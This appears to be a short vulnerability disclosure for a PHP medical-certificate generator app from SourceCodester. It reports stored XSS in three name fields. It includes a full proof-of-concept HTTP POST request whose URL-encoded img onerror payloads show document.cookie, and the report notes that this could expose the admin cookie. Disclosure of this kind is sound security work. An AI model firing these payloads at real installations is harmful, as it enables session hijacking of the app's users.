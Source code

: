 ## Medical Certificate Generator App has xss


## supplier
https://www.sourcecodester.com/php/16105/medical-certificate-generator-app-using-php-and-mysql-free-download.html

## Vulnerability file
/php-med-cert-generator/action.php?action=save_record


## describe
Medical certificate generator app that allows unlimited xss attacks. An attacker could exploit this vulnerability to directly obtain the administrator cookie without authorization.

POC

The lastname, firstname, and middlename parameters all have stored XSS vulnerabilities.
```
POST /php-med-cert-generator/action.php?action=save_record HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 477
Origin: http://localhost
Connection: close
Referer: http://localhost/php-med-cert-generator/?page=manage_record&id=1
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

id=1&lastname=%3Cimg+src%3D1+onerror%3Dalert(document.cookie)%3E&firstname=%3Cimg+src%3D1+onerror%3Dalert(document.cookie)%3E&middlename=%3Cimg+src%3D1+onerror%3Dalert(document.cookie)%3E&suffix=Jr.&dob=1997-06-23&gender=Male&civil_status=Married&contact=09123654789&nationality=Filipino&address=Sample+Address&diagnostic=Flu&remarks=is+advising+the+above+individual+should+take+at+least+3-4+days+to+fully+recover+from+his+illness.&doctor_fullname=Claire+Blake&doctor_suffix=MD

```









